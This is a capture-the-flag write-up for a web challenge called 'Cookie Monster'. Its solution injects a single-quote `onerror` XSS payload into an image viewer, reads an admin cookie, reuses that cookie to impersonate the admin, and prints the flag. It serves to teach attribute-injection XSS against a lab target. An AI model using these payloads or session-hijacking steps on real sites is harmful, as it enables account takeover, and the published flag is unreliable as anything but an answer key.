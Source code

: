 # Cookie Monster
Display use of XSS to steal cookies

<i>Creator - @Platy</i>

## Category
Web

## Question
>Cookie monster has stolen my cookies again! And apparently, he learnt how to create a website to get more cookies! He is accepting nice images from users and running it on his image viewer using what he thinks is the best browser, Internet Explorer. Retrieve the cookie he has that he stole from me! Thanks!
>
>Connect via `http://<ip address>:17563` and `nc <ip address> 17564`

### Hint
None.

## Distribution
None.

## Setup Guide
Run `bash build.sh`

## Solution
Upon going on to the website, we can see a nice image viewer. Whatever you placed in the input field, the image will get displayed.

We can try to do some simple XSS by doing `<script>alert(1);</script>` but nothing interesting happens.

Doing `Ctrl-U`, we can see
```html
<h1>HeRe Is YoUr ImAgE!</h1>
<img src='&lt;script&gt;alert(1);&lt;/script&gt;' width="500">
<p><h2>Thank you for using image viewer</h2></p>
<p>Image source : &lt;script&gt;alert(1);&lt;/script&gt;</p>
```

The tags get filtered out. But what's this? The img source uses single quotes instead of double. Perhaps single quotes are not filtered out by `htmlentities()` as it is not the default option

Typing in a single quote and we get this
```html
<img src=''' width="500">
```
Success! Now we know that single quotes are not sanitised. Since this is `<img src>`, we can do `onerror` to run javascript if the image fails to load.

By doing that, we can do `document.write()` with `document.cookie` to view Cookie Monster's cookies.

Upon entering  `' onerror='document.write(document.cookie)`, we get
```html
<html>
  <head></head>
  <body>passwordzzzzz=1_4m_z3_4dm1n_0f_z15_5173_pl3453_n0_h4ck_d4nk</body>
</html>
```
Now we can go into the console of chrome and type `document.cookie="passwordzzzzz=1_4m_z3_4dm1n_0f_z15_5173_pl3453_n0_h4ck_d4nk"`

We can now enter and pretend to be cookie monster to get the flag.

### Flag
`GCTF{c_15_f0r_c00k13_4nd_c00k13_15_f0r_m3}`

## Credits
None.

## Recommended Reads
None.